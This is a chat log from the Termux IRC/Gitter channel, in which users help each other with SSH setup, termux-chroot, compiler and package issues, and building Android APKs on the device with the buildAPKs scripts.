2017-05-29 06:56:15	gitter1	(sdrausty) packages list-all |grep sql

2017-05-29 07:04:35	bokuno	i know termux has a "Reset" command on its menu. but could i call this command in termux session as a command line command?

2017-05-29 07:06:39	gitter1	(sdrausty) `clear` clears the screen

2017-05-29 07:08:14	bokuno	it is not a 'clear', reset is not clear.

2017-05-29 08:01:03	gitter1	(sdrausty) Have you ever wanted to build your own application for Android? https://sdrausty.github.io/buildapks/

2017-05-29 09:25:33	noncom	hi...

2017-05-29 09:25:44	frumpylava	noncom: hi!

2017-05-29 09:25:54	noncom	what is make wants to access /usr/ and ofc it cannot do so..?

2017-05-29 09:25:58	noncom	is there any env var I can override?

2017-05-29 09:26:04	noncom	*what if

2017-05-29 09:26:57	noncom	just following some complicated make script, it hits that problem.. I was able to find solutions for other, but not for this.. I can't find where it takes the notion of /usr

2017-05-29 09:27:06	noncom	there is no such text in the Makefile itself

2017-05-29 09:27:41	frumpylava	noncom: You could run under termux-chroot, where /usr/ exists.

2017-05-29 09:27:56	noncom	hmmmmm

2017-05-29 09:28:28	noncom	will it share the filesystem with the regular termux?

2017-05-29 09:28:33	noncom	where can I find info on how to use it?

2017-05-29 09:29:16	noncom	googling "termux chroot" does not give anything definite... just some related github issues..

2017-05-29 09:29:45	frumpylava	noncom: Yes, it just does virtual folder remapping. You probably only have to run termux-chroot while compiling, afterwards the binary should work without.

2017-05-29 09:30:04	noncom	so it is a package that I install and then run?

2017-05-29 09:30:22	frumpylava	yes. It's part of proot.

2017-05-29 09:30:37	noncom	eh..

2017-05-29 09:33:02	noncom	yes, it did it!

2017-05-29 09:33:06	noncom	many thanks!

2017-05-29 09:33:14	noncom	is there any recommended material to read about this?

2017-05-29 09:35:14	frumpylava	noncom: Not really. You can look at the manpage of proot, to see what it exactly does. Termux-chroot is just a bash script. Things like that are poorely documented in Termux. I only know about them from hanging around in this IRC for 2 years.

2017-05-29 09:35:33	frumpylava	There is talk about starting a wiki on the mailing-list, where things like that could be documented.

2017-05-29 09:42:11	noncom	oh, I see, well, good, thank you :)

2017-05-29 13:59:37	aleph-	Afternoon folks

2017-05-29 14:04:30	aleph-	vishalbiswas: Got a copy of the rustc/cargo binaries I can test out? I'd compile myself but my build server is down right now.

2017-05-29 16:23:36	sielicki	How can I debug segfaults on termux? I've got a nexus 5x on the Android O beta. I wiped all the cache/data in the applications android settings, did packages upgrade / packages install python, and doing pip install youtube-dl segfaults

2017-05-29 22:13:33	gitter1	(vishalbiswas) aleph- arch?

2017-05-29 22:13:43	aleph-	Arm, regular.

2017-05-29 22:13:49	aleph-	On a nexus 6.

2017-05-29 22:19:33	live_the_dreams	its on my repo

2017-05-29 22:21:11	gitter1	(vishalbiswas) aleph- https://github.com/its-pointless/gcc_termux follow instructions in readme to add live_the_dream's repo

2017-05-29 22:21:37	gitter1	(vishalbiswas) He has rustc as well as many other useful packages

2017-05-29 22:21:52	aleph-	... I'm a moron. I forgot to re-enable your repo when I reinstalled. :P

2017-05-29 22:24:35	sielicki	Anyone have any thoughts on what I said earlier?

2017-05-29 22:25:03	sielicki	If someone wouldn't mind, it'd be cool if one of you with an aarch64 device could try to reproduce. Just pip install youtube-dl

2017-05-29 22:25:13	sielicki	If it succeeds I'll assume android O is to blame.

2017-05-29 22:26:36	gitter1	(vishalbiswas) sielicki: the best thing you could do is run `strace -y -f` on it to see whats causing the segfault

2017-05-29 22:27:16	gitter1	(vishalbiswas) live_the_dream: your repo has grown to 640 MB!

2017-05-29 22:27:49	aleph-	Vishalbiswas, pre-order the book yet?

2017-05-29 22:28:15	gitter1	(vishalbiswas) you lost me there

2017-05-29 22:29:29	aleph-	The rust book.

2017-05-29 22:29:55	aleph-	Comes out in October. There's a rough draft of the second edition.

2017-05-29 22:29:59	aleph-	https://doc.rust-lang.org/nightly/book/second-edition/

2017-05-29 22:31:19	gitter1	(vishalbiswas) Ah, I'm not deeply vested in rust. It is a hobby for me. I'll probably follow kotlin as I'm more of an android dev

2017-05-29 22:32:39	gitter1	(vishalbiswas) Rust has been my first functional programming language (I'm scared of its syntax)

2017-05-29 22:41:22	aleph-	Of rust? Or functional language paradigms/syntax?

2017-05-29 22:42:13	gitter1	(vishalbiswas) `fn main() -> () { }`

2017-05-29 22:43:15	gitter1	(vishalbiswas) python has the best syntax. It was a delight to learn and program with

2017-05-29 22:44:56	gitter1	(vishalbiswas) `void maid() { }` is much smaller and readable

2017-05-29 22:45:12	gitter1	(vishalbiswas) \* main()

2017-05-29 22:53:16	aleph-	Eh, rust syntax is fine. Verbose is good at times.

2017-05-29 22:56:33	gitter1	(vishalbiswas) So, how is rustc fairing up for you?

2017-05-29 23:05:12	aleph-	Haven't compiled anything yet. Going to in a minute.

2017-05-30 00:12:23	aleph-	Vishalbiswas, Rust works fine so far. Which build is this?

2017-05-30 00:12:25	aleph-	Recent nightly?

2017-05-30 00:52:34	live_the_dreams	its recent stable version

2017-05-30 01:24:26	aleph-	Gotcha. Thanks.

2017-05-30 02:50:52	frumpylava	anybody got bsdgames running?

2017-05-30 03:46:18	noncom	if I have termux running a session on my android, can I connect to it via SSH?

2017-05-30 05:08:26	phil42	.

2017-05-30 05:09:45	frumpylava	noncom: yes.

2017-05-30 05:10:29	frumpylava	noncom: https://glow.li/tech/2015/11/06/run-an-ssh-server-on-your-android-with-termux.html

2017-05-30 05:11:21	noncom	wow, super cool, thanks

2017-05-30 05:12:31	noncom	hmm... googling gives this among its first results... I definitely should be better at employing search

2017-05-30 06:09:31	noncom	hmm, I can't find the folder where termux stores files

2017-05-30 06:09:37	noncom	this: https://android.stackexchange.com/questions/166538/where-is-the-folder-that-termux-defaults-to does not help

2017-05-30 06:09:49	noncom	there's no "com.termux" folder in /data/data

2017-05-30 06:10:11	noncom	and I need to get the ssh keys out of there...

2017-05-30 06:35:19	noncom	oh, I've found out it is the root problem...

2017-05-30 06:35:23	noncom	my phone is not rooted

2017-05-30 06:36:56	noncom	oh my

2017-05-30 06:53:04	frumpylava	noncom: You can just copy it to the internal sdcard and then copy with termux to the home directory.

2017-05-30 06:55:45	noncom	yeah, that would work, I think... but considering all the other issues I am tired of having without being a root, I think, I should root it

2017-05-30 06:56:14	noncom	so sad that rooting is considered to be something unusual or illegal

2017-05-30 06:57:12	frumpylava	noncom: I've found workarounds for almost all issues relating to not being rooted. But for a few things it would be nice.

2017-05-30 09:12:39	code2501	hi

2017-05-30 09:25:54	code2501	hi

2017-05-30 10:18:31	frumpylava	code2501: ĥi

2017-05-30 19:19:36	sielicki	Finally got around to getting an strace for the `pip install youtube-dl` issues I'm seeing

2017-05-30 19:22:55	sielicki	Looks something like this: '''openat(<location to pip file>) = 5' (fine)

2017-05-30 19:23:13	sielicki	'fstat(<file descriptor 5>)  = 0' (fine)

2017-05-30 19:23:56	sielicki	'ioctl(5, TCGETS, 0x7fe10d04d0) = -1 ENOTTY (Not a typewriter)' (not sure why that's being called)

2017-05-30 19:24:17	sielicki	then lseek(5, 0, SEEK_CUR) ----> sigsegv

2017-05-30 20:42:11	live_the_dreams	radare2 doesn't match sha checksum

2017-05-30 20:45:37	live_the_dreams	hm  sielicki what arch you using and has it ever worked previously

2017-05-30 20:48:12	sielicki	live_the_dreams: aarch64 via nexus 5x.

2017-05-30 20:49:50	live_the_dreams	did it work previously? never tried?

2017-05-30 20:55:34	sielicki	Never tried.

2017-05-30 20:56:14	sielicki	Worth mentioning this device is on the android O beta program, would not surprise me if that's what's doing this

2017-05-30 21:16:55	live_the_dreams	yeah android O no test available could very well be a lib error on their part...

2017-05-30 21:53:29	sielicki	any good way to confirm that?

2017-05-30 21:54:22	sielicki	https://github.com/termux/termux-app/issues/299 this seems related

2017-05-30 21:56:56	sielicki	this may be relevant https://developer.android.com/preview/behavior-changes.html#rmp

2017-05-30 22:05:52	sielicki	https://github.com/termux/termux-app/blob/master/app/src/main/AndroidManifest.xml i'm not big into android development, why does termux have the WRITE_EXTERNAL_STORAGE but not READ_EXTERNAL_STORAGE?

2017-05-30 22:06:49	sielicki	Given the example from the Android O behavior-changes given above, I wonder if that could be related. Though they mention that it only affects permissions where both are specified in the manifest, so maybe that's not it.

2017-05-30 22:23:41	gitter1	(tojo2ska8) hi there , how i can install haskell  in termux

2017-05-30 22:27:29	sdrausty	apt install haskell

2017-05-30 22:27:57	sdrausty	Unable to locate package haskell

2017-05-30 22:28:09	sdrausty	build it

2017-05-30 22:28:23	sdrausty	package it

2017-05-30 22:30:27	sdrausty	https://github.com/termux/termux-create-package

2017-05-30 22:31:01	gitter1	(vishalbiswas) its not a piece of cake

2017-05-30 22:31:14	gitter1	(vishalbiswas) Haskell will take some time

2017-05-30 22:31:17	gitter1	(tojo2ska8) thanks dude , i will try it

2017-05-30 22:32:34	gitter1	(vishalbiswas) sielicki: can you paste the whole `strace -y -f` somewhere?

2017-05-30 22:35:53	sdrausty	https://sdrausty.github.io/buildAPKs/

2017-05-31 02:37:25	michcioperz	hi, somewhat silly question, has anyone here tried compiling tensorflow on termux?

2017-05-31 02:38:07	frumpylava	michcioperz: Yes, some people tried. https://github.com/termux/termux-packages/issues/784

2017-05-31 02:38:35	michcioperz	thank you

2017-05-31 06:20:16	gitter1	(noncom) I am having troubles connecting to Termux via SSH

2017-05-31 06:21:03	gitter1	(noncom) I have followed the advice https://oliverse.ch/tech/2015/11/06/run-an-ssh-server-on-your-android-with-termux.html and here's what I get on attempting to connect with `sshd -d`: http://joxi.ru/l2ZvX9LuwWejn2

2017-05-31 06:21:58	gitter1	(noncom) does this error message make sense to anyone?

2017-05-31 06:26:37	gitter1	(sdrausty) @noncom did you `ssh-keygen`

2017-05-31 06:27:25	gitter1	(sdrausty) I'm looking for opinions regarding:

2017-05-31 06:27:59	gitter1	(sdrausty) https://sdrausty.github.io/buildAPKs/easilyBuildAndroidAPKsonDevice

2017-05-31 06:28:32	gitter1	(noncom) @sdrausty yes.. I have generated the keys using `ssh-keygen` in Termux... I was following the aforementioned guide precicely

2017-05-31 06:29:28	gitter1	(noncom) @sdrausty can't say anything particular about the tool you've posted, but creating APKs on a device is not something new... AIDE does this every time...

2017-05-31 06:30:46	gitter1	(noncom) hmm, i would like to know more on how can I use this APK builder...

2017-05-31 06:30:56	gitter1	(noncom) like, examples

2017-05-31 06:32:00	gitter1	(sdrausty) It's not new to Termux either. However, it seems to me we should be able to build terrmux-app in Termux...

2017-05-31 06:32:36	gitter1	(noncom) maybe it is just that I am misunderstood it :D you're saying to build Termux itself in Termux!!!

2017-05-31 06:32:40	gitter1	(noncom) that sounds amazing

2017-05-31 06:32:48	gitter1	(sdrausty) packages install aapt apksigner dx ecj git

2017-05-31 06:32:48	gitter1	(sdrausty) git clone ://github.com/sdrausty/buildAPKs

2017-05-31 06:32:48	gitter1	(sdrausty) ./buildAPKs/buildMyFirstAKPinTermux.sh

2017-05-31 06:33:07	sdrausty	packages install aapt apksigner dx ecj git 

2017-05-31 06:33:07	sdrausty	git clone https://github.com/sdrausty/buildAPKs

2017-05-31 06:33:07	sdrausty	./buildAPKs/buildMyFirstAKPinTermux.sh

2017-05-31 06:33:20	gitter1	(noncom) great!

2017-05-31 06:42:35	gitter1	(sdrausty) `ssh` works fine. I have not had any problems. If you cannot figure it out soon, bring it up at https://github.com/termux/termux-packages/issues

2017-05-31 06:44:15	gitter1	(noncom) yeah, thanks!

2017-05-31 07:03:25	joco42	how can i press shift in termux ?

2017-05-31 07:03:31	joco42	i would need that for org mode in emacs

2017-05-31 07:27:37	gitter1	(noncom) joco42: aren't you using Hackers Keyboard or anything similar already?

2017-05-31 07:27:41	joco42	yes

2017-05-31 07:27:43	joco42	i do

2017-05-31 07:27:46	joco42	mesagease

2017-05-31 07:27:51	joco42	but that does not have that

2017-05-31 07:28:09	joco42	https://play.google.com/store/apps/details?id=com.exideas.mekb&hl=hu

2017-05-31 07:28:19	joco42	https://play.google.com/store/apps/details?id=com.exideas.mekb

2017-05-31 08:12:38	frumpylava	joco42: How do you normally type an upper case letter? Usually you don't actually have to press shift+letter

2017-05-31 08:14:31	gitter1	(noncom) michcioperz may I ask you what are you going to use tensorflow for?

2017-05-31 08:15:00	michcioperz	I just wanted to try installing it on the phone

2017-05-31 08:15:25	michcioperz	going to a machine learning event today, hoped there would be a way to not bring my laptop

2017-05-31 08:15:40	gitter1	(noncom) ah, I see! thanks :)

2017-05-31 08:19:09	live_the_dreams	tensorflow requires bazel

2017-05-31 08:19:09	live_the_dreams	to instal,

2017-05-31 08:19:21	live_the_dreams	bazel requres jdk

2017-05-31 08:19:44	live_the_dreams	jdk available is 9 only within termux

2017-05-31 08:19:56	live_the_dreams	needs 8 jre

2017-05-31 08:21:27	michcioperz	I have an i686, thought it would be doable

2017-05-31 08:21:49	live_the_dreams	it should be ... just not in termux

2017-05-31 08:22:25	live_the_dreams	needs a chroot ...

2017-05-31 08:36:23	michcioperz	needs it for sure?

2017-05-31 08:40:50	live_the_dreams	yeah something like linux deploy

2017-05-31 08:41:07	live_the_dreams	even then i dunno

2017-05-31 08:41:09	live_the_dreams	..

2017-05-31 08:42:00	michcioperz	alright I'll just SSH into something then

2017-05-31 11:01:46	joco42	frumpylava: yes, i tried to type upper case letter, but that does not really work with arrow keys....

2017-05-31 11:02:04	joco42	for example alt-shift-left arrow

2017-05-31 11:17:48	gitter1	(vishalbiswas) live_the_dream: wasn't that error with tensor flow occurring because they haven't updated their tools for the latest jdk commit? They may have fixed it now.

2017-05-31 11:20:36	gitter1	(sdrausty) @vishalbiswas can I get your opinion about https://sdrausty.github.io/buildAPKs/reallyEasilyBuildAndroidAPKsonDevice when you have the chance please?

2017-05-31 11:41:02	gitter1	(vishalbiswas) @sdrausty how to use?

2017-05-31 11:47:17	gitter1	(vishalbiswas) @sdrausty You should move sourceapksbuiltondevice to another repo and add it as a submodule in main repo

2017-05-31 11:48:01	gitter1	(vishalbiswas) so that people who don't want sample apps can clone the repo without submods

2017-05-31 11:48:16	gitter1	(sdrausty) ```

2017-05-31 11:48:16	gitter1	(sdrausty)

2017-05-31 11:48:16	gitter1	(sdrausty) ```

2017-05-31 11:48:33	gitter1	(sdrausty) ``` packages install aapt apksigner dx ecj git

2017-05-31 11:48:33	gitter1	(sdrausty) git clone https://github.com/sdrausty/buildAPKs

2017-05-31 11:48:33	gitter1	(sdrausty) ./buildAPKs/buildMyFirstAKPinTermux.sh ```

2017-05-31 11:49:42	gitter1	(sdrausty) H

2017-05-31 11:50:58	gitter1	(sdrausty) Thank you. I have some reading to do https://github.com/blog/2104-working-with-submodules

2017-05-31 11:52:17	gitter1	(vishalbiswas) @sdrausty Is there a way to install support libraries (from maven repos or binaries)?

2017-05-31 11:52:45	gitter1	(vishalbiswas) My app fails because it uses AppCompat

2017-05-31 11:54:11	gitter1	(sdrausty) Very good question! Can you bring that up on https://github.com/sdrausty/buildAPKs/issues

2017-05-31 11:55:10	gitter1	(sdrausty) I have tinkered a little with `./gradlew`

2017-05-31 11:56:53	gitter1	(sdrausty) Tried `ln -s ecj jave` and there was improvement in how it ran, but `gradlew` never got to compilation.

2017-05-31 11:58:33	gitter1	(sdrausty) https://www.google.com/search?q=maven+libraries+download

2017-05-31 12:03:12	gitter1	(sdrausty) * `ln -s ecj java`

2017-05-31 12:06:33	gitter1	(vishalbiswas) @sdrausty What are you proposing? I don't get it

2017-05-31 12:07:11	gitter1	(sdrausty) ./gradlew

2017-05-31 12:07:11	gitter1	(sdrausty) Unrecognized option : -Dorg.gradle.appname=gradlew

2017-05-31 12:07:55	gitter1	(sdrausty) Before linking `ecj` to `java`

2017-05-31 12:08:14	gitter1	(vishalbiswas) But what does ot achieve?

2017-05-31 12:08:47	gitter1	(sdrausty) org.gradle.appname=gradlew

2017-05-31 12:08:47	gitter1	(sdrausty) $ ./gradlew

2017-05-31 12:08:47	gitter1	(sdrausty)

2017-05-31 12:08:47	gitter1	(sdrausty) [full message: https://gitter.im/termux/termux?at=592eea8e5e34568d5eac8923]

2017-05-31 12:09:25	gitter1	(sdrausty) JAVA_HOME seems to set itself up...

2017-05-31 12:13:09	gitter1	(sdrausty) $ `ack "\-Dorg.gradle.appname"`

2017-05-31 12:13:09	gitter1	(sdrausty) gradlew

2017-05-31 12:13:09	gitter1	(sdrausty) 165:eval set -- $DEFAULT_JVM_OPTS $JAVA_OPTS $GRADLE_OPTS "\"-Dorg.gradle.appname=$APP_BASE_NAME\"" -classpath "\"$CLASSPATH\"" org.gradle.wrapper.GradleWrapperMain "$APP_ARGS"

2017-05-31 12:13:09	gitter1	(sdrausty) [full message: https://gitter.im/termux/termux?at=592eeb94c4d73f445a00d3a1]

2017-05-31 12:14:57	gitter1	(sdrausty) This `gradlew` is from https://github.com/termux/termux-app/issues

2017-05-31 12:15:27	gitter1	(sdrausty) * https://github.com/termux/termux-app

2017-05-31 12:16:06	gitter1	(sdrausty) I'm considering adding an issue at terrmux-app

2017-05-31 12:16:07	gitter1	(sdrausty)

2017-05-31 12:17:46	gitter1	(sdrausty) But it might be __easier__ to write a script from scratch than tinkering with `gradlew`

2017-05-31 12:25:43	gitter1	(vishalbiswas) gradlew is just a wrapper for gradle

2017-05-31 12:26:04	gitter1	(vishalbiswas) It downloads gradle and runs it

2017-05-31 12:27:04	gitter1	(sdrausty) The process seems simple enough.

2017-05-31 12:27:53	gitter1	(sdrausty) Extract the libraries list, download, link and compile.

2017-05-31 12:30:55	gitter1	(sdrausty) Who needs `gradle` or `gradlew` if the do not work in Termux? `wget` thrown into the script and elbow grease might be all that is missing.

2017-05-31 12:33:48	gitter1	(sdrausty) Let's leave the stoneage and the era of the whirling computer fans behind.

2017-05-31 13:00:47	goonza	hi?

2017-05-31 13:01:51	goonza	is someone herE?

2017-05-31 13:51:08	frumpylava	goonza: yes

2017-05-31 14:12:33	goonza	i want to open something from termux on my computer with ssh

2017-05-31 14:14:11	goonza	what i need to do in my computer(windows 7) to let me connect with ssh from termux

2017-05-31 14:14:15	xelra	goonza: Be more specific please. What are you doing?

2017-05-31 14:14:30	xelra	Oh, Windows.

2017-05-31 14:14:34	xelra	Windows is special.

2017-05-31 14:14:43	xelra	You need to install an SSH server for Windows.

2017-05-31 14:14:46	goonza	in an exercise i need to open xeyes on my computer, should i try on ubuntu?

2017-05-31 14:15:08	goonza	can i use cygwin?

2017-05-31 14:15:34	xelra	Yes, you can. There are tutorials for how to run an SSH server with Cygwin.

2017-05-31 14:15:55	goonza	oh thanks, ill go search for something.

2017-05-31 14:16:03	goonza	:)

2017-05-31 14:16:27	xelra	Once your SSH server is set up, you can SSH just like with any Unix system.

2017-05-31 14:17:08	goonza	nice

2017-05-31 14:17:26	xelra	In termux, what you should have installed is bash, bash-completion and ssh.

2017-05-31 14:17:46	goonza	Yeah thanks i think i found something

2017-05-31 14:17:55	xelra	That makes for a nice experience, because you can complete server addresses with the tab key.

2017-05-31 14:18:26	xelra	If you need basic help about SSH in general, see you back in #openssh. :)

2017-05-31 14:19:10	goonza	oh that

2017-05-31 14:19:32	goonza	openssh is another command? im actually really new to this

2017-05-31 14:19:57	xelra	OpenSSH is the implementation of SSH that runs on almost every Unix server in the world.

2017-05-31 14:20:12	goonza	when i try using it it tells me if i tried to use openssl

2017-05-31 14:20:22	goonza	from openssl-tools or something like that

2017-05-31 14:20:32	goonza	or termux has it on ssh?

2017-05-31 14:20:59	xelra	Wait, I'm gonna check in my termux.

2017-05-31 14:21:16	xelra	The package is either called openssh or ssh.

2017-05-31 14:22:21	xelra	Yeah, it's called openssh

2017-05-31 14:22:38	goonza	man ssh says : Name shh - openssh ssh client

2017-05-31 14:23:10	xelra	Yes, that's what you need to connect to an ssh server.

2017-05-31 14:23:41	xelra	The command would look like this: ssh user@1.2.3.4

2017-05-31 14:24:07	xelra	Then you enter the password for the user and it logs you in.

2017-05-31 14:24:11	goonza	exactly, so to u use openssh its by using ssh

2017-05-31 14:24:16	goonza	?

2017-05-31 14:24:19	xelra	Yes.

2017-05-31 14:24:43	goonza	ok that was confusing haha

2017-05-31 14:25:10	goonza	ok thanks ill go try to open ssh con cygwin

2017-05-31 15:05:39	gitter1	(noncom) guys

2017-05-31 15:05:49	gitter1	(noncom) I did already ask, but I try my luck again

2017-05-31 15:06:03	gitter1	(noncom) I am having troubles connecting to Termux via SSH

2017-05-31 15:06:09	gitter1	(noncom) I have followed the advice https://oliverse.ch/tech/2015/11/06/run-an-ssh-server-on-your-android-with-termux.html and here's what I get on attempting to connect with sshd -d: http://joxi.ru/l2ZvX9LuwWejn2

2017-05-31 15:06:12	gitter1	(noncom) does this error message make sense to anyone?

2017-05-31 17:44:33	xelra	noncom: Well, it says that public key authentication failed.

2017-05-31 17:48:51	Exaeta_	Is there a way to change the standard library used with clang++?

2017-05-31 17:49:07	Exaeta_	For some reason, it ships with one missing std::to_string which is required by the application I am trying to build

2017-05-31 17:57:06	live_the_dreams	no but there is an alternative

2017-05-31 17:57:09	live_the_dreams	https://stackoverflow.com/questions/22774009/android-ndk-stdto-string-support

2017-05-31 18:23:38	Exaeta_	Humm so how do I include my own std::to_string in the project?

2017-05-31 18:23:56	Exaeta_	I would need to get cmake to insert that into every file...

2017-05-31 18:24:50	live_the_dreams	or you could edit a header file

2017-05-31 18:25:05	Exaeta_	black magic :o

2017-05-31 22:43:26	GarDotJar	hello ?

2017-05-31 22:56:40	JarDotGar	clear

2017-05-31 22:56:43	JarDotGar	ah shit

2017-05-31 22:59:09	gitter1	(vishalbiswas) @noncom still here?

2017-05-31 23:00:52	gitter1	(vishalbiswas) @noncom https://termux.com/ssh.html

2017-05-31 23:24:19	rods-tab3	will termux run on the qualcomm kyro cpus ?  https://en.m.wikipedia.org/wiki/Kryo_(microarchitecture)

2017-05-31 23:42:51	live_the_dreams	errr ... yes

2017-05-31 23:43:18	live_the_dreams	that is aarch64

2017-05-31 23:57:23	rods-tab3	ok, thanks

2017-06-01 01:49:43	frumpylava	I'm having an argument with a dev on why hard-coding paths like /bin/sh is a bad idea. https://github.com/jamessan/vim-gnupg/issues/80

2017-06-01 01:49:50	frumpylava	Anybody have any better arguments?

2017-06-01 04:03:22	grepper	"env sh" ?

2017-06-01 04:04:44	frumpylava	grepper: Yeah, or just "sh" works too. It's how I fixed it locally.

2017-06-01 04:52:01	fornwall	frumpylava: I guess the main argument to change "/bin/sh" to "sh" is that "a lot of people already call 'sh' and it works, fixes issues on prefixed systems without breaking anything"

2017-06-01 04:53:08	fornwall	frumpylava: in https://github.com/ffi/ffi/pull/528 the developer of the ruby ffi worried about the possibility of 'sh' not being in $PATH, but I've never heard of such a system

2017-06-01 04:58:27	frumpylava	fornwall: I guess the only real argument against it is that some malicous programm could put a `sh` somewhere else and add it to hte $PATH. But I am not sure if this really is an interessting attack vector.

2017-06-01 06:04:32	gitter1	(noncom) @vishalbiswas  thanks, but what you cite is a plain tutorial which does not answer the question... and which I have already followed the steps of

2017-06-01 06:06:59	gitter1	(vishalbiswas) You can the use scp

2017-06-01 06:07:19	gitter1	(vishalbiswas) To transfer files

2017-06-01 06:07:55	gitter1	(vishalbiswas) @noncom https://www.google.co.in/url?sa=t&source=web&rct=j&url=https://winscp.net/&ved=0ahUKEwiR5reis5zUAhVGQ48KHY7rCrgQFggcMAA&usg=AFQjCNEH3QRcknVwFtVud-4q5balXr0Yfg&sig2=xaa6vXkCJ3pS4EPP8IJQ2w

2017-06-01 06:09:00	gitter1	(vishalbiswas) Once you add your ssh key and start sshd, you can transfer files using ssh

2017-06-01 06:11:53	gitter1	(noncom) yeah, I did all this...

2017-06-01 06:12:14	gitter1	(noncom) the problem is that when I am trying to establish an SSH connection using the keys pair, that's what I get

2017-06-01 06:12:20	gitter1	(noncom) and the connection is not established

2017-06-01 06:18:49	gitter1	(vishalbiswas) @noncom Are you sure?

2017-06-01 06:19:48	gitter1	(vishalbiswas) sshd is not able to find `/data/data/com.termux/files/home/.ssh/authorized_keys`

2017-06-01 06:33:35	live_the_dream	the only systems that i can imagine not having sh are embedded ones

2017-06-01 06:44:07	gitter1	(noncom) @vishalbiswas  hmmmm, I am pretty much sure... but I will re-check everything again

2017-06-01 06:53:27	gitter1	(noncom) confirming, yes

2017-06-01 06:53:31	gitter1	(noncom) the file is there

2017-06-01 06:53:38	gitter1	(noncom) I can `cat` it and see my key

2017-06-01 06:54:08	gitter1	(noncom) an attempt to log in to SSH from either Win or Mac results in the abovementioned error message

2017-06-01 07:05:55	gitter1	(vishalbiswas) You haven't done it correctly. That error message means that the connecting user isn't in authorized users list

2017-06-01 07:07:04	gitter1	(vishalbiswas) Make sure u r using the same ssh key whose public key was added in `authorized_keys` @noncom

2017-06-01 08:02:29	gitter1	(noncom) eh

2017-06-01 08:05:41	gitter1	(noncom) yes, I am sure.. I have just tried all that again... :(

2017-06-01 08:05:51	gitter1	(noncom) what the luck..

2017-06-01 08:06:26	gitter1	(noncom) I've tried both with a passphrase and without it

2017-06-01 08:06:37	gitter1	(noncom) when it had a passphrase, it was never accepted

2017-06-01 08:06:45	gitter1	(noncom) and this is the error that I get when the passphrase is empty

2017-06-01 08:07:36	Anic	Hello, I got a question. Is there a way to have packages working once I use 'su'?

2017-06-01 08:16:55	gitter1	(vishalbiswas) `apt install tsu`

2017-06-01 08:17:10	gitter1	(vishalbiswas) Then use `tsu` instead of `su`

2017-06-01 08:21:27	Anic	hm... I get a 'bad interpreter: Permission denied' error when I run tsu

2017-06-01 08:23:45	Anic	actually, I can run tsu but I get Permission denied for all commands

2017-06-01 08:25:16	Anic	Nevermind... I read the help and figured it out. Thank you and sorry for the bother

2017-06-01 09:06:04	ClockGen	Hello, anybody had luck with sshd?

2017-06-01 09:06:54	ClockGen	As I understand, password method is disabled at all since android user have no password

2017-06-01 09:08:27	ClockGen	And while trying to auth with ssh key, connectbot says "key exchange was not finished"

2017-06-01 09:08:53	ClockGen	Dropbear server works fine with ssh keys, though

2017-06-01 09:09:22	gitter1	(sumanthgavini) unable to install termux, without internet.

2017-06-01 09:10:02	gitter1	(sumanthgavini) how to open the termux application in android.

2017-06-01 09:10:43	gitter1	(sumanthgavini) without the internet

2017-06-01 09:11:01	ClockGen	Also, sshd with -dd option says that no matching host key type found

2017-06-01 09:11:23	ClockGen	While I'm trying to connect with connectbot

2017-06-01 09:38:43	frumpylava	ClockGen: Have you seen this already? https://glow.li/tech/2015/11/06/run-an-ssh-server-on-your-android-with-termux.html

2017-06-01 09:50:35	ClockGen	I havent, but nothing new here, the ssh daemon itself replies that my client program have no suitable key type

2017-06-01 09:52:28	frumpylava	Can you paste the whole sshd output (to like pastebin or something)?

2017-06-01 10:11:12	ClockGen	debug1: kex: algorithm: curve25519-sha256@libssh.org

2017-06-01 10:11:44	ClockGen	Which is strange, since I generated this keypair in termux, with ssh-keygen

2017-06-01 10:13:42	frumpylava	ClockGen: Are you sure you haven't mixed up the public and the private key?

2017-06-01 10:14:06	ClockGen	It works with other clients

2017-06-01 10:14:24	ClockGen	Including ssh itself

2017-06-01 10:14:45	ClockGen	And also what is strange, that the reported key type is dsa

2017-06-01 10:14:52	ClockGen	Since my keypair is rsa

2017-06-01 10:21:34	ClockGen	Ok well I guess there is a bug in connectbot, I just generated a new pair of rsa keys, added to authorized_keys, restarted the server and tried to login, but my client still reports ecdsa key type

2017-06-01 10:25:29	ClockGen	Or not the client, since it connects fine to other ssh servers, like dropbear

2017-06-01 11:06:42	onexore	Hi guys ...

2017-06-01 14:43:28	m0ss	Hi

2017-06-01 14:51:57	gitter1	(sdrausty) Hello

2017-06-01 15:06:51	m0ss	Hi guys.

2017-06-01 15:09:23	gitter1	(sdrausty) m0ss: Hello

2017-06-02 01:04:36	sdrausty	https://plus.google.com/109614420080028230010/posts/CFK8nZQqz9B

2017-06-02 02:04:38	frumpylava	sdrausty: That seems cool. I'm trying to build that 16-bit-clock now, but I get errors: "/res/values/styles.xml:7: error: Error retrieving parent for item: No resource found that matches the given name 'android:Theme.Light'"

2017-06-02 02:08:44	gitter1	(sdrausty) frumpylava: https://sdrausty.github.io/buildAPKs/reallyEasilyBuildAndroidAPKsonDevice

2017-06-02 02:09:06	th30nE	I'm new to termux. Can I get some help regarding moving a file!?

2017-06-02 02:09:24	gitter1	(sdrausty) `man mv`

2017-06-02 02:10:08	sdrausty	th30nE

2017-06-02 02:10:27	th30nE	I tried with mv. but it says can't rename..!!

2017-06-02 02:10:54	gitter1	(sdrausty) Try `cp`

2017-06-02 02:11:22	frumpylava	sdrausty: yeah, I also did that. Error: "./res/drawable/prism_tab.xml:7: error: No resource identifier found for attribute 'drawable' in package 'android'"

2017-06-02 02:11:45	gitter1	(sdrausty) WOW

2017-06-02 02:12:37	gitter1	(sdrausty) All tests up till now have built and installed OK.

2017-06-02 02:13:43	gitter1	(sdrausty) Are you building with build.sh or builda.sh?

2017-06-02 02:15:41	gitter1	(sdrausty) frumpylava: Are you building in Termux on device?

2017-06-02 02:16:47	frumpylava	whatever it is in ./buildAPKs/buildMyFirstAKPinTermux.sh. builda.sh, I think

2017-06-02 02:17:01	frumpylava	sdrausty: https://glow.li/share/buildapks.html

2017-06-02 02:17:08	frumpylava	Yes, I'm building on termux.

2017-06-02 02:21:00	gitter1	(sdrausty) It's somekind of error and your using builda.sh

2017-06-02 02:21:30	frumpylava	sdrausty: But I also tried build.sh, same error.

2017-06-02 02:22:51	gitter1	(sdrausty) Try one of the other sources v

2017-06-02 02:24:07	gitter1	(sdrausty) `cd ./sourceOfAPKsBuiltOnDevice/cw-android/Basic/CheckBox`

2017-06-02 02:24:13	frumpylava	sdrausty: with builda.sh or build.sh?

2017-06-02 02:24:57	gitter1	(sdrausty) `../../../../scripts/builds.sh`

2017-06-02 02:25:19	gitter1	(sdrausty) Either should work.

2017-06-02 02:26:44	gitter1	(sdrausty) frumpylava: what's your architecture?

